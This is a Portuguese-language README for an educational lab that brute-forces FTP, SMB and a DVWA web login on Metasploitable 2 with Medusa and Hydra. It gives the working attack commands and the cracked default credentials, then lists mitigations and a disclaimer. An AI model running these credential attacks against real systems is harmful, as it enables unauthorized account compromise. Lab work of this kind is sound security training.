



#  Brute Force Lab com Medusa, Kali Linux e DVWA

## Objetivo

Este projeto tem como objetivo simular ataques de força bruta em um ambiente controlado, utilizando Kali Linux e a ferramenta Medusa, em conjunto com o Metasploitable 2 e DVWA (Damn Vulnerable Web Application).

A proposta é entender como esses ataques funcionam na prática e como podem ser mitigados.

---

## Ambiente Utilizado

* Kali Linux
* Metasploitable 2
* DVWA (rodando no Metasploitable)
* VirtualBox (rede Host-Only)

---

## Configuração de Rede

* Kali Linux: 192.168.56.X
* Metasploitable 2: 192.168.56.103

Conectividade validada via `ping` e varredura com Nmap.

---

## Reconhecimento (Nmap)

Foi realizada uma varredura de portas para identificar serviços ativos no alvo.



Serviços identificados incluem:

* SMB (139/445)
* FTP (21)
* HTTP (8180)
* MySQL (3306)

Essa etapa é essencial para mapear a superfície de ataque.

---

## Ataques Realizados

### FTP (Força Bruta)

Ferramenta: Medusa

Comando utilizado:

```
medusa -h 192.168.56.103 -u msfadmin -P pass.txt -M ftp
```

Resultado:

* Acesso obtido com sucesso utilizando credenciais válidas

---

### SMB (Password Spraying)

Ferramenta: Medusa

Comando utilizado:

```
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M smbnt -t 6
```

Resultado:

* Usuário: msfadmin
* Senha: msfadmin
* Acesso ao compartilhamento ADMIN$ permitido

Validação:

```
smbclient //192.168.56.103/tmp -U msfadmin
```

---

### DVWA (Brute Force Web)



Ferramenta: Hydra

Comando utilizado:

```
hydra -l admin -P pass.txt 192.168.56.103 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Login failed"
```


Observações:

* O Medusa não foi eficaz para formulários web
* Foi necessário utilizar Hydra devido ao uso de sessões e parâmetros HTTP

---

## Evidências

As capturas de tela dos testes realizados estão disponíveis na pasta `/images`.

---

## Medidas de Mitigação

* Implementação de autenticação multifator (MFA)
* Limitação de tentativas de login (lockout)
* Uso de senhas fortes
* Desativação de serviços inseguros (ex: SMBv1)
* Monitoramento e análise de logs

---

## Dificuldades Encontradas

* Problemas iniciais com autenticação SMB
* Medusa não funcionando corretamente em aplicações web
* Necessidade de adaptação de ferramentas para diferentes serviços

---

## Aprendizados

* Diferença entre ataques em serviços de rede e aplicações web
* Uso prático das ferramentas Medusa e Hydra
* Importância da enumeração inicial
* Validação de acessos após exploração

---

## Aviso Legal

Este projeto foi realizado em ambiente controlado e isolado, com fins exclusivamente educacionais.
Não utilize essas técnicas em ambientes sem autorização.

---

